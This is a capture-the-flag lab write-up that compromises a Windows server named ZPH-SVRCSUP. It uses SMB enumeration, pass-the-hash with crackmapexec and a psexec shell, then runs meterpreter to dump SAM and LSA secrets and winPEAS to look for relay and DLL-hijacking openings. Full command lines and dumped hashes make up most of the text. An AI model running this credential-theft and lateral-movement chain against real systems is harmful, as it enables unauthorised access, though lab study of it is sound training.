


Beeing connected to ZSM-SVRCSQL02 shows that we can reach this machine, and running a NMAP shows some open services from a standard Windows host!

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# nmap 192.168.210.18
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-18 10:47 CEST
Nmap scan report for zephyr.atlassian.htb (192.168.210.18)
Host is up (0.021s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 17.64 seconds
```

* * *

## SMB:

I will start by footprinting the machine by poking the Samba service:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# enum4linux-ng -A 192.168.210.18                                                  
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.210.18
[*] Username ......... ''
[*] Random Username .. 'zgbkmtln'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.210.18    |
 =======================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: timed out
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: timed out
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.210.18    |
 =============================================================
[+] Got domain/workgroup name: INTERNAL
[+] Full NetBIOS names information:
- ZPH-SVRCSUP     <20> -         B <ACTIVE>  File Server Service
- ZPH-SVRCSUP     <00> -         B <ACTIVE>  Workstation Service
- INTERNAL        <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
- MAC Address = 00-50-56-B9-AE-DD

 ===========================================
|    SMB Dialect Check on 192.168.210.18    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 =============================================================
|    Domain Information via SMB session for 192.168.210.18    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: ZPH-SVRCSUP
NetBIOS domain name: internal
DNS domain: internal.zsm.local
FQDN: ZPH-SVRCSUP.internal.zsm.local
Derived membership: domain member
Derived domain: internal

 ===========================================
|    RPC Session Check on 192.168.210.18    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[+] Server allows session using username 'zgbkmtln', password ''
[H] Rerunning enumeration with user 'zgbkmtln' might give more results

 =================================================
|    OS Information via RPC for 192.168.210.18    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: ''
OS build: '20348'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests, sessions are possible, but not with the provided credentials (see session check results)

Completed after 24.54 seconds
```

The tool identified the machine as ZPH-SVRCSUP.

* * *

## PE:

I tried to use the administrators creds but it havent't worked out so I will try to use all the hashes so we can find which account can login to!

Seems like Jamie can login?

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# crackmapexec smb 192.168.210.18 -u users_interal_zsm.local -H internal.hashes  
SMB         192.168.210.18  445    ZPH-SVRCSUP      [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCSUP) (domain:internal.zsm.local) (signing:False) (SMBv1:False)
SMB         192.168.210.18  445    ZPH-SVRCSUP      [-] internal.zsm.local\jamie:8cb21ab7f3ee6d782c724216bd88d1d1 STATUS_LOGON_FAILURE 
SMB         192.168.210.18  445    ZPH-SVRCSUP      [+] internal.zsm.local\jamie:29ab86c5c4d2aab957763e5c1720486d 
                                                                                                                                                                                                                                                                                          
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# crackmapexec smb 192.168.210.18 -u users_interal_zsm.local -H internal.hashes --local-auth
SMB         192.168.210.18  445    ZPH-SVRCSUP      [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCSUP) (domain:ZPH-SVRCSUP) (signing:False) (SMBv1:False)
SMB         192.168.210.18  445    ZPH-SVRCSUP      [+] ZPH-SVRCSUP\jamie:8cb21ab7f3ee6d782c724216bd88d1d1
```

Checking for shares we can see some custom shares:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# crackmapexec smb 192.168.210.18 -u jamie -H 29ab86c5c4d2aab957763e5c1720486d --shares
SMB         192.168.210.18  445    ZPH-SVRCSUP      [*] Windows 10.0 Build 20348 x64 (name:ZPH-SVRCSUP) (domain:internal.zsm.local) (signing:False) (SMBv1:False)
SMB         192.168.210.18  445    ZPH-SVRCSUP      [+] internal.zsm.local\jamie:29ab86c5c4d2aab957763e5c1720486d 
SMB         192.168.210.18  445    ZPH-SVRCSUP      [+] Enumerated shares
SMB         192.168.210.18  445    ZPH-SVRCSUP      Share           Permissions     Remark
SMB         192.168.210.18  445    ZPH-SVRCSUP      -----           -----------     ------
SMB         192.168.210.18  445    ZPH-SVRCSUP      ADMIN$                          Remote Admin
SMB         192.168.210.18  445    ZPH-SVRCSUP      C$                              Default share
SMB         192.168.210.18  445    ZPH-SVRCSUP      IPC$            READ            Remote IPC
SMB         192.168.210.18  445    ZPH-SVRCSUP      loot            READ,WRITE      
SMB         192.168.210.18  445    ZPH-SVRCSUP      PublicShare     READ,WRITE
```

Using the credentials we added we can login into this machine as domain admins:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# impacket-psexec yovecio@192.168.210.18                                            
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 192.168.210.18.....
[*] Found writable share ADMIN$
[*] Uploading file LkCmhIBR.exe
[*] Opening SVCManager on 192.168.210.18.....
[*] Creating service sXWa on 192.168.210.18.....
[*] Starting service sXWa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1726]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ..

C:\Windows> cd ..

C:\> ls
```

* * *

## POST Exploitation:

We can see Melissa's folder:



This mean we should be able to get to this machine with melissas credentials as well!



But we will continue with out user and get another flag:

```
Volume Serial Number is 1C84-5AEF

 Directory of C:\Users\Administrator\Desktop

18/09/2023  10:35    <DIR>          .
14/03/2022  23:56    <DIR>          ..
08/11/2022  14:57                41 flag.txt
18/09/2023  10:35        11,849,245 LaZagne.exe
               2 File(s)     11,849,286 bytes
               2 Dir(s)  30,884,814,848 bytes free

C:\Users\Administrator> cd Desktop

C:\Users\Administrator\Desktop> type flag.txt
ZEPHYR{D0n7_f0rg3t_Imp0rt4nt_Inf0rm4710n}
C:\Users\Administrator\Desktop>
```

Laslty I will check if this machine can reach some other IP we don't have access to?

&nbsp;

```
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.168.210.0/24
[+] 	192.168.210.1 host found
[+] 	192.168.210.18 host found
[+] 	192.168.210.10 host found
[+] 	192.168.210.16 host found
[+] 	192.168.210.12 host found
[+] 	192.168.210.13 host found
[+] 	192.168.210.11 host found
```

&nbsp;

I will run mimikatz to dump creds:

```
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username      Domain    NTLM                              SHA1                                      DPAPI
--------      ------    ----                              ----                                      -----
Melissa       internal  184260f5bf16a77d67a9d540fda79495  072d4d4aa79510e73734630a7f5abb03e184b8d8  1b140817a4557924ff82c191612cd527
ZPH-SVRCSUP$  internal  36e7d551e7cb15ca7dad3fd851fc707f  815885f1612a83b655b99a59fe34c033cff26d14

wdigest credentials
===================

Username      Domain    Password
--------      ------    --------
(null)        (null)    (null)
Melissa       internal  (null)
ZPH-SVRCSUP$  internal  (null)

kerberos credentials
====================

Username      Domain              Password
--------      ------              --------
(null)        (null)              (null)
ZPH-SVRCSUP$  internal.zsm.local  12 1c c6 e3 a3 b0 9a 38 8c b8 8e a9 e1 5e 60 aa 6d 40 9b cb 8d fb 25 d8 4e bc e3 d0 4e 73 39 e0 01 66 2a 19 37 9a bb 90 50 7a 87 a7 84 5e 01 3c 62 fd 70 6c cc 55 9e 38 72 ab 46 23 f4 9e 77 e4 d6 76 b0 2b db 32 e6 34 4c da e4 15 dd 26 84 66 e3 cf
                                  b8 61 7e 58 5e b2 38 07 3e 18 11 83 c3 ad 63 8d e9 f0 a9 b3 c0 7d cc 92 ec 42 c3 22 c7 54 10 29 a6 7b be c4 a5 31 c7 40 5b b1 3f c4 63 cf 19 f6 61 94 df 09 d2 5e f2 12 c4 59 74 9e 63 6d 0d 01 bd c8 09 68 32 3f 15 e0 a1 7c 22 35 38 22 6e 20 92 b2
                                  f7 fa 6d ee 68 8e 5b 4c e1 81 02 b9 af 72 f7 d2 b4 20 f3 41 de 93 b3 dc bb 62 c1 d8 e7 7f 91 19 66 09 89 10 2b 7e 4f 6e e4 44 76 ee 0f 98 4f 39 01 a9 e5 69 6b 20 2b 5f 12 d9 c0 9f 53 a3 fb 43 91 53 b2 bf 28 4a a0 a3 b1 05 ac ae
melissa       INTERNAL.ZSM.LOCAL  (null)
zph-svrcsup$  INTERNAL.ZSM.LOCAL  (null)
```

next SAM:

```
meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ZPH-SVRCSUP
SysKey : 089d55a4ed9f4b67d969139aa7a4bbf5
Local SID : S-1-5-21-2734290894-461713716-141835440

SAMKey : a0e73cf54a9e01be47977b29815a5c18

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 5b237ae04d61a2a1644c3bcc2d4be276
    lm  - 0: 86097d322541462f3f9472fb9d6ea937
    ntlm- 0: 5b237ae04d61a2a1644c3bcc2d4be276
    ntlm- 1: cf3a5525ee9414229e66279623ed5c58

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ff05aae6591857727c516304607c9851

* Primary:Kerberos-Newer-Keys *
    Default Salt : ZPH-SVRCSUP.INTERNAL.ZSM.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a57d06cb86de987f23a820c15be6de10ab19f55f425a8b946d9f1a2110a6f435
      aes128_hmac       (4096) : 0c743a82c15329fe49674fa601903403
      des_cbc_md5       (4096) : 310dea62cb58a74c
    OldCredentials
      aes256_hmac       (4096) : 3090e4f67e4e76a9cc4761082bf1ee7f48139064d898453c51c3b28e1d47d014
      aes128_hmac       (4096) : 1bcc5ef9fec5ee8064f376461ff89500
      des_cbc_md5       (4096) : 0d7946bc2ae097e3

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ZPH-SVRCSUP.INTERNAL.ZSM.LOCALAdministrator
    Credentials
      des_cbc_md5       : 310dea62cb58a74c
    OldCredentials
      des_cbc_md5       : 0d7946bc2ae097e3


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
```

&nbsp;

Lastly secrets from LSASS.exe:

```
meterpreter > lsa_dump_secrets 
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ZPH-SVRCSUP
SysKey : 089d55a4ed9f4b67d969139aa7a4bbf5

Local name : ZPH-SVRCSUP ( S-1-5-21-2734290894-461713716-141835440 )
Domain name : internal ( S-1-5-21-3056178012-3972705859-491075245 )
Domain FQDN : internal.zsm.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {f9a6c492-1619-2f39-cf1c-02b9acf580ea}
  [00] {f9a6c492-1619-2f39-cf1c-02b9acf580ea} 780cb3e4a910bbd1413a4e38916620cace95877ff101dae8357ebd53007e7b81

Secret  : $MACHINE.ACC
cur/hex : 12 1c c6 e3 a3 b0 9a 38 8c b8 8e a9 e1 5e 60 aa 6d 40 9b cb 8d fb 25 d8 4e bc e3 d0 4e 73 39 e0 01 66 2a 19 37 9a bb 90 50 7a 87 a7 84 5e 01 3c 62 fd 70 6c cc 55 9e 38 72 ab 46 23 f4 9e 77 e4 d6 76 b0 2b db 32 e6 34 4c da e4 15 dd 26 84 66 e3 cf b8 61 7e 58 5e b2 38 07 3e 18 11 83 c3 ad 63 8d e9 f0 a9 b3 c0 7d cc 92 ec 42 c3 22 c7 54 10 29 a6 7b be c4 a5 31 c7 40 5b b1 3f c4 63 cf 19 f6 61 94 df 09 d2 5e f2 12 c4 59 74 9e 63 6d 0d 01 bd c8 09 68 32 3f 15 e0 a1 7c 22 35 38 22 6e 20 92 b2 f7 fa 6d ee 68 8e 5b 4c e1 81 02 b9 af 72 f7 d2 b4 20 f3 41 de 93 b3 dc bb 62 c1 d8 e7 7f 91 19 66 09 89 10 2b 7e 4f 6e e4 44 76 ee 0f 98 4f 39 01 a9 e5 69 6b 20 2b 5f 12 d9 c0 9f 53 a3 fb 43 91 53 b2 bf 28 4a a0 a3 b1 05 ac ae 
    NTLM:36e7d551e7cb15ca7dad3fd851fc707f
    SHA1:815885f1612a83b655b99a59fe34c033cff26d14
old/hex : 79 55 72 17 73 69 55 b2 f5 23 59 fd f7 51 d2 35 1e 91 70 2e e4 c5 07 7b df 59 74 3e d8 a3 db 1b 4f 51 29 1f 7c ca 88 c5 cb 1d 9d 50 d1 52 c3 cc 5c 0f ff 1b 41 cc d4 c7 96 f3 19 df d2 3c 00 ae ef 51 3c b2 b9 6f 79 c2 2f 52 cb 8b 4e f3 48 99 5d ec c7 ce 3f a5 23 76 24 1a 69 4b dc fb 03 25 6d c4 d6 16 94 28 c4 9c 42 a3 63 41 fe 45 7b ba f1 97 24 89 b9 cb a7 18 01 81 c8 65 04 b2 84 ab c8 e6 f5 2d 0d f7 f4 e7 7a 60 17 fe 9b 45 d9 01 20 9b 16 0d a3 bd 2a 90 8b d0 65 19 3b 0c a3 09 4f 22 20 1d d7 40 7f 19 10 73 3b 03 25 07 f1 5e 7d e0 8a bd bf 09 2d ea 18 e0 03 da 96 62 7d 4d 78 66 2d 9c 6b 58 e9 79 9f d0 99 2d 0a 05 3d c6 de 27 5c ad f7 74 46 00 22 0d fb 21 97 62 35 c2 c5 7b e6 3d df 02 0a 51 10 a5 3e b7 f5 d0 d2 a5 
    NTLM:84e3c65fd56fbe83830ef41193e8d264
    SHA1:a23449e9ce4977828f53adb80b6a6aa1df871090

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 c5 0e e6 7b 89 01 24 a1 4e c6 73 5e e1 ca ff 33 72 32 11 9f 30 1e 82 f7 c1 ae 10 07 ba 51 0b 38 39 7b 8a ff ff ab 11 2d 
    full: c50ee67b890124a14ec6735ee1caff337232119f301e82f7c1ae1007ba510b38397b8affffab112d
    m/u : c50ee67b890124a14ec6735ee1caff337232119f / 301e82f7c1ae1007ba510b38397b8affffab112d
old/hex : 01 00 00 00 93 d9 75 8d c3 ce b7 93 53 65 c8 d2 a9 b3 73 e6 b6 91 86 08 85 70 66 06 12 e1 9f b3 2d 98 cd 14 85 43 e4 79 0e 49 f7 ed 
    full: 93d9758dc3ceb7935365c8d2a9b373e6b69186088570660612e19fb32d98cd148543e4790e49f7ed
    m/u : 93d9758dc3ceb7935365c8d2a9b373e6b6918608 / 8570660612e19fb32d98cd148543e4790e49f7ed

Secret  : NL$KM
cur/hex : 07 e9 f2 3f 08 49 46 07 02 ce 30 4b 65 d3 86 32 6f 02 5d 36 7d e8 30 33 f4 71 94 44 98 37 cb 1a 05 cc 76 f1 26 e2 94 e7 d3 54 78 1f ef be e9 13 30 3b 62 cb a5 57 75 e6 78 f3 d4 55 5c 68 20 15 
old/hex : 07 e9 f2 3f 08 49 46 07 02 ce 30 4b 65 d3 86 32 6f 02 5d 36 7d e8 30 33 f4 71 94 44 98 37 cb 1a 05 cc 76 f1 26 e2 94 e7 d3 54 78 1f ef be e9 13 30 3b 62 cb a5 57 75 e6 78 f3 d4 55 5c 68 20 15
```

Lastly I will run Winpeas just in case, we know that the flag was guiding us to poke deeper:

```
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    OS Name: Microsoft Windows Server 2022 Datacenter
    OS Version: 10.0.20348 N/A Build 20348
    System Type: x64-based PC
    Hostname: ZPH-SVRCSUP
    Domain Name: internal.zsm.local
    ProductName: Windows Server 2022 Datacenter
    EditionID: ServerDatacenter
    ReleaseId: 2009
    BuildBranch: fe_release_svc_prod2
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United Kingdom)
    TimeZone: (UTC+00:00) Dublin, Edinburgh, Lisbon, London
    IsVirtualMachine: True
    Current Time: 18/09/2023 11:28:46
    HighIntegrity: True
    PartOfDomain: True
    Hotfixes: KB5022507, KB5012170, KB5026370, KB5026493, 

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [!] Windows version not supported, build number: '20348'


NTLM relay might be possible - other users authenticate to this machine using NTLM!

  Accounts authenticate to this machine using NTLM v2!
  You can obtain NetNTLMv2 for these accounts by sniffing NTLM challenge/responses.
  You can then try and crack their passwords.

    internal\Jamie
    internal\Melissa
    internal\yovecio
    ZPH-SVRCSUP\Administrator

  The following users have authenticated to this machine using Kerberos.

    INTERNAL.ZSM.LOCAL\Melissa


����������͹ Checking write permissions in PATH folders (DLL Hijacking)
� Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking
    (DLL Hijacking) C:\Windows\system32: SYSTEM [WriteData/CreateFiles], Administrators [WriteData/CreateFiles]
    (DLL Hijacking) C:\Windows: SYSTEM [WriteData/CreateFiles], Administrators [WriteData/CreateFiles]
    (DLL Hijacking) C:\Windows\System32\Wbem: SYSTEM [WriteData/CreateFiles], Administrators [WriteData/CreateFiles]
    (DLL Hijacking) C:\Windows\System32\WindowsPowerShell\v1.0\: SYSTEM [WriteData/CreateFiles], Administrators [WriteData/CreateFiles]
    (DLL Hijacking) C:\Windows\System32\OpenSSH\: SYSTEM [WriteData/CreateFiles], Administrators [WriteData/CreateFiles]
```

I don't see anything strange here so I guess we can move forward.

&nbsp;